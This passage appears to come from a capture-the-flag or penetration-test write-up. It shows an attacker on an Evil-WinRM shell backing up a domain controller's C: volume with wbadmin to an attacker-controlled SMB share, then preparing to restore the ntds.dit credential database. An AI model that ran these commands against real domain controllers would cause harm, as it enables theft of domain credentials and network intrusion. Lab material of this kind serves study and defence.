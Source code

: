 ```powershell
This might take several minutes.
Scanning the file system...
Please wait while files to backup for volume (C:) are identified.
This might take several minutes.
Found (4) files.
Scanning the file system...
Creating a backup of volume (C:), copied (100%).
Summary of the backup operation:
------------------

The backup operation successfully completed.
The backup of volume (C:) completed successfully.
Log of files successfully backed up:
C:\Windows\Logs\WindowsServerBackup\Backup-04-10-2020_17-48-38.log
```

Let us quickly connect to our container and see what the backup looks like on the smb-server.

```bash
root@darkness:~# docker ps
CONTAINER ID        IMAGE               COMMAND                  CREATED             STATUS                   PORTS                                                     NAMES
e2ca224b5a44        dperson/samba       "/sbin/tini -- /usr/…"   8 minutes ago       Up 8 minutes (healthy)   0.0.0.0:139->139/tcp, 137-138/udp, 0.0.0.0:445->445/tcp   festive_brahmagupta
root@darkness:~# docker exec -it e2ca224b5a44 bash
bash-5.0# ls -alh /mnt/smb/
total 20K    
drwxrwxr-x    4 smbuser  smb         4.0K Oct  4 10:48 .
drwxr-xr-x    1 root     root        4.0K Oct  4 10:41 ..
drwxrwxr-x    3 smbuser  smb         4.0K Oct  4 10:50 .deleted
drwxrwxr-x    3 smbuser  smb         4.0K Oct  4 10:48 WindowsImageBackup
bash-5.0# ls -alh /mnt/smb/WindowsImageBackup/DC01/
total 48K    
drwxrwxr-x    5 smbuser  smb         4.0K Oct  4 10:50 .
drwxrwxr-x    3 smbuser  smb         4.0K Oct  4 10:48 ..
drwxrwxr-x    2 smbuser  smb         4.0K Oct  4 10:50 Backup 2020-10-04 174838
drwxrwxr-x    2 smbuser  smb         4.0K Oct  4 10:50 Catalog
-rwxrwxr-x    1 smbuser  smb           16 Oct  4 10:48 MediaId
drwxrwxr-x    2 smbuser  smb         4.0K Oct  4 10:50 SPPMetadataCache
```

The backup is stored at `WindowsImageBackup/DC01/Backup 2020-10-04 174838`.

Let us restore the `ntds.dit` file now. For this we have to check for available backups:

```powershell
*Evil-WinRM* PS C:\tmp> wbadmin get versions
wbadmin 1.0 - Backup command-line tool
(C) Copyright Microsoft Corporation. All rights reserved.

Backup time: 10/4/2020 10:48 AM
Backup location: Network Share labeled \\10.10.14.15\share\
Version identifier: 10/04/2020-17:48
Can recover: Volume(s), File(s)
```
